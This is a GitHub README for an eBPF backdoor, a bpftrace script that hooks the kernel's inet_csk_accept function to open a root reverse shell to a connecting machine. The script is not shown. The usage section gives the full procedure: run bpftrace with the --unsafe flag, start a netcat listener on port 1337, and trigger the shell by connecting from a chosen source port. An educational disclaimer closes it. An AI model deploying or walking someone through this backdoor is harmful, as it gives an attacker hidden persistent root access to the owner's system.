

# eBPF Backdoor

Backdoor uses eBPF technology to reverse shell to the connected machine with root privileges.

This bpftrace script was written for ebpf article as an example of bpftrace usage.

This uses dynamic tracing of the kernel `inet_csk_accept` socket function.



## Install Dependencies

You will need `bpftrace` to run the example

On Ubuntu/Debian, you need:
```shell
$ sudo apt install bpftrace
```

## USAGE

Run the bpftrace
```shell
$ sudo bpftrace --unsafe ebpf_backdoor.bt {port_number}
```

Listen for the remote machine
```shell
$ nc -l -k 0.0.0.0 1337
```

Trigger the port
```shell
$ nc {server_ip} 22 -p {port_number}
```

## Disclaimer
This project is for educational purposes only, I am not responsible for any kind of abuse.
